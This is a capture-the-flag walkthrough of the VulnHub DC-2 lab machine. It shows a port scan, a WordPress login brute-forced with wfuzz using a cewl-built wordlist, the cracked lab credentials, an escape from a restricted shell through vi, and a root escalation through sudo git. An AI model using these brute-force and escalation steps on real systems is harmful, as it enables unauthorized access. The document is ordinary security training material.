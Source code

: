 ```yaml
---
layout: "post"
title: "DC 2 Walkthrough"
categories: [vulnhub, DC-Series]
tags: [dc-2, easy, wordpress, suid]
---
```


DC-2 is an easy machine. This machine starts with a `WordPress site`. After brute-forcing, We find out creds on the website that we use to get an `ssh session` on the box. Priv esc to root by exploiting `git SUID binary`.
# Summary
- Portscan
- Adding Domain to Host file
- Finding users on wordpress 
- Creating wordlist
- Bruteforce
- Logging in Wordpress
- SSH shell
- Updating low shell to higher shell
- Privilege Escalation
- Getting ROOT

# Portscan

```
Nmap scan report for 192.168.1.10
Host is up (0.00047s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Did not follow redirect to http://dc-2/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
7744/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u7 (protocol 2.0)
| ssh-hostkey: 
|   1024 52:51:7b:6e:70:a4:33:7a:d2:4b:e1:0b:5a:0f:9e:d7 (DSA)
|   2048 59:11:d8:af:38:51:8f:41:a7:44:b3:28:03:80:99:42 (RSA)
|   256 df:18:1d:74:26:ce:c1:4f:6f:2f:c1:26:54:31:51:91 (ECDSA)
|_  256 d9:38:5f:99:7c:0d:64:7e:1d:46:f6:e9:7c:c6:37:17 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Nmap scan show that port 80 and 7744 are open

```
Port 80: On this port, I find out a Domain name. I added to /etc/hosts file and surf the page. I discovered that WordPress is installed.

Port 7744: They are running SSH on this port. So I don't have any credentials so I moved forward.
```
# Initial Shell:

## Flag 1:
I got the first flag on the Main page
![flag1](/assets/img/dc-2/flag1.png)



As per hint in the first flag, I created a password list using cewl.

```bash
cewl -w password.txt http://dc-2
```

After that, I use wpscan to identify possible users and I found 3 users.

![wpscan](/assets/img/dc-2/wpscan.png)

Users :-
- admin
- jerry
- tom

Now I have a password and user list so I brute force the wordpress.
Here I use wfuzz to brute force.

```bash
wfuzz -c --hc=200 -z file,users.txt -z file,password.txt -d 'log=FUZZ&pwd=FUZ2Z&wp-submit=Log+In' http://dc-2/wp-login.php
```

![wfuzz](/assets/img/dc-2/wfuzz.png)

Here I got 2 passwords.
- ```jerry:adipiscing```
- ```tom:parturient```

## Flag 2:
I use jerry password to access wordpress panel and got second flag.

![flag2](/assets/img/dc-2/flag2.png)

## First User:
I spend some time to upload php reverse shell, but no luck :(
Then I tried same creds to access SSH on port 7744.
``` $ ssh tom@dc-2 -p 7744```

## Updating shell:

I tried to cat the flag3.txt but no luck. We are in a restricted shell. I checked usr/bin directory and PATH variable I noticed that tom is using binaries from that directory.
Here I learned new things about how to launch a shell using vi.

Steps:

1. Open VI editor 
2. Press ESC + :
3. set shell=/bin/bash
4. Again step 1 and 2 
5. shell

So I have shell using VI.

Now I am out of restricted shell but still using commands in usr/bin directory. I need to change PATH variable.

```export PATH=/bin:/usr/bin:$PATH```

## Flag 3:
Now I am able to cat the third flag.

![flag 3](/assets/img/dc-2/flag3.png)

## Second User:
Flag gives hint we need to switch user i.e jerry.

>jerry:adipiscing

![user2](/assets/img/dc-2/user2.png)

# Privesc to root:

Now I checked the sudoers list and found that I can run git without password.
![sudoer](/assets/img/dc-2/sudoer.png)

After some googling I found a [link](https://gtfobins.github.io/gtfobins/git/#shell).
![gtfobins](/assets/img/dc-2/gtfobins.png)

![git](/assets/img/dc-2/git.png)

## Final Flag
![final](/assets/img/dc-2/final.png)


